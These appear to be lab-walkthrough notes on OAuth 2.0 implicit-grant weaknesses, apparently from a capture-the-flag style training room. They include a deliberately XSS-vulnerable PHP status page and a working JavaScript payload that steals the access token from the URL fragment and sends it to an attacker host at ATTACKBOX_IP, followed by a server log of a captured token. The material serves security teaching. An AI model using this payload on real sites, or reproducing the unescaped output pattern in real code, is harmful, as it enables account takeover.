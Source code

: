 In the implicit grant flow, tokens are directly returned to the client via the browser without requiring an intermediary authorization code. This flow is primarily used by single-page applications and is designed for public clients who cannot securely store client secrets. However, this flow has inherent vulnerabilities:

Weaknesses
- **Exposing Access Token in URL**: The application redirects the user to the OAuth authorization endpoint, which returns the access token in the URL fragment. Any script running on the page can easily access this fragment.
- **Inadequate Validation of Redirect URIs**: The OAuth server does not adequately validate the redirect URIs, allowing potential attackers to manipulate the redirection endpoint.
- **No HTTPS Implementation**: The application does not enforce HTTPS, which can lead to token interception through man-in-the-middle attacks.
- **Improper Handling of Access Tokens**: The application stores the access token insecurely, possibly in `localStorage` or `sessionStorage`, making it vulnerable to XSS attacks

## Deprecation of Implicit Grant Flow
Due to these vulnerabilities, the [OAuth 2.0 Security Best Current Practice](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-security-topics) recommends deprecating the implicit grant flow in favour of the authorization code flow with [Proof Key for Code Exchange](https://auth0.com/docs/get-started/authentication-and-authorization-flow/authorization-code-flow-with-pkce) (PKCE). This updated flow provides enhanced security by mitigating the risks of token exposure and lack of client authentication.

## Example
In the attached VM, visit `http://factbook.thm:8080`, where you will see a page that allows you to sync your statuses from a `CoffeeShopApp`. The authorisation process will start once you click on the "**Sync Statuses from CoffeeShopApp**" button. The client application is configured to use the **implicit grant type**, which means the access token will be directly returned to the client. The authorization URL is constructed as follows:

```php
var client_id = 'npmL7WDiRoOvjZoGSDiJhU2ViodTdygjW8rdabt7'; 
var redirect_uri = 'http://factbook.thm:8080/callback.php'; 
var auth_url = "http://coffee.thm:8000/o/authorize/"; 
var url = auth_url + "?response_type=token&client_id=" + client_id + "&redirect_uri=" + encodeURIComponent(redirect_uri); window.location.href = url;
```

## Victim Perspective
Once the user authenticates using the OAuth provider credentials `victim:victim123`, he will be redirected to `callback.php`, where he can enter a status. This page includes a form for entering a status and submitting it via an AJAX request:
```php
<button class="btn btn-primary" onclick="submitStatus()">Submit</button>
<h2 class="mt-4">Submitted Status</h2>
<ul class="list-group" id="status-list">
    <?php
    session_start();
    if (isset($_POST['status'])) {
        $status = $_POST['status'];
        if (!isset($_SESSION['statuses'])) {
            $_SESSION['statuses'] = [];
        }
        $_SESSION['statuses'][] = $status;
        header('Content-Type: application/json');
        echo json_encode(['status' => $status]);
        exit();
    }
    // Display previously stored statuses
    if (isset($_SESSION['statuses'])) {
        foreach ($_SESSION['statuses'] as $status) {
            echo '<li class="list-group-item">' . $status . '</li>';
        }
    }
    ?>
</ul>
```

For demonstration purposes, the status input field is vulnerable to XSS. Once you reach the status page and enter a status like "**Hello**", it will be published. However, if an attacker exploits this vulnerability, they can inject a malicious script.
	![](Pasted%20image%2020241202010128.png)

## Attacker Perspective
To prepare for the attack, inside the Attackbox instance, run a Python HTTP server to listen on port `8081` using the command `python3 -m http.server 8081`. The attacker will share the following payload with the victim that he will enter as status (assume using social engineering):
```javascript
<script>
	var hash = window.location.hash.substr(1);var result = hash.split('&').reduce(function (res, item) {var parts = item.split('=');res[parts[0]] = parts[1];
    return res;
  }, {});
  var accessToken = result.access_token;
    var img = new Image();
    img.src = 'http://ATTACKBOX_IP:8081/steal_token?token=' + accessToken;
</script>
```

### Code Breakdown:
1. **Extracting the URL Hash**:
    `var hash = window.location.hash.substr(1);`
    
    - `window.location.hash` retrieves the part of the URL after the `#` symbol (known as the **fragment identifier**).
    - `substr(1)` removes the `#`, leaving only the key-value pairs (e.g., `access_token=abc123&expires_in=3600`).
    
2. **Parsing the Hash into Key-Value Pairs**:
    `var result = hash.split('&').reduce(function (res, item) {     var parts = item.split('=');     res[parts[0]] = parts[1];     return res; }, {});`
    
    - `hash.split('&')`: Splits the hash into individual key-value pairs (e.g., `["access_token=abc123", "expires_in=3600"]`).
    - **`reduce()`**: Iterates over each pair and:
        - Splits each pair at the `=` sign (`item.split('=')`) to separate the key and value.
        - Stores the key-value pairs in an object (`res[parts[0]] = parts[1]`).
    
    **Result:** `result` is now an object like this:
    `{   access_token: 'abc123',   expires_in: '3600' }`
    
3. **Extracting the Access Token**:
    `var accessToken = result.access_token;`
    
    - This retrieves the **access token** from the parsed object.
    
4. **Exfiltrating the Token**:
    `var img = new Image(); img.src = 'http://ATTACKBOX_IP:8081/steal_token?token=' + accessToken;`
    
    - Creates an **invisible image** element (`new Image()`).
    - Sets the image’s `src` to an attacker-controlled URL (`http://ATTACKBOX_IP:8081/steal_token`), appending the stolen **access token** as a query parameter (`?token=`).
    
    **Effect:** When the browser loads the image, it makes a request to the attacker's server, sending the token in the URL.

**Let's dissect the payload:**
- The JavaScript payload starts by extracting the fragment identifier from the URL, which is the part of the URL following the `#` symbol. It removes the leading `#` using `substr(1)` to obtain the raw fragment string.
- This string is then split by `&` to separate the individual key-value pairs. The `reduce` function processes each of these pairs, splitting them further by `=` to isolate the keys and values. These key-value pairs are then stored in an object called result.
- The script extracts the `access_token` value from this object and assigns it to the variable `accessToken`. To exfiltrate this access token, the script creates a new Image object and sets its `src` attribute to a URL that points to an attacker's server (`http://ATTACKBOX_IP:8081/steal_token`), appending the access token as a query parameter.
- When the image is loaded, it triggers a request to the attacker's server with the stolen access token included in the URL, effectively sending the token to the attacker.

Copy and paste the code inside the victim machine into the status input field. Once the victim refreshes the page, the XSS payload is executed. It copies the access token from the URL fragment and sends it to the attacker's server at `http://{ATTACKBOX_IP}:8081/steal_token`. The attacker can then capture the token and use it to gain unauthorized access to the user's account.
![](Pasted%20image%2020241202012117.png)

```shell-session
root@ip-10-10-162-175:~# python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.9.2.217 - - [27/Aug/2024 19:30:10] code 404, message File not found
10.9.2.217 - - [27/Aug/2024 19:30:10] "GET /steal_token?token=2aauviER3lUOev8wNmXQ9B4GNUoadE HTTP/1.1" 404 -
```
![](Pasted%20image%2020241202012236.png)

The implicit grant type is particularly vulnerable to such attacks because the access token is exposed in the URL fragment, making it accessible to any script running on the page. This vulnerability is compounded if the application does not enforce HTTPS, leading to potential token interception through man-in-the-middle attacks.


